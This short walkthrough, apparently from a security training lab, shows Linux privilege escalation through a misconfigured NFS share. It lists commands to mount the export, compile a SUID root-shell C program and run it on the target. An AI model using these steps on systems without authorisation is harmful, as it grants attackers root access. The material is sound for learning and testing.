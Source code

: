 1. Open command prompt and type: showmount -e 10.10.66.122
2. In command prompt type: mkdir /tmp/1
3. In command prompt type: mount -o rw,vers=2 10.10.66.122:/tmp /tmp/1
In command prompt type:
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c
4. In command prompt type: gcc /tmp/1/x.c -o /tmp/1/x
5. In command prompt type: chmod +s /tmp/1/x

Linux VM

1. In command prompt type: /tmp/x
2. In command prompt type: id
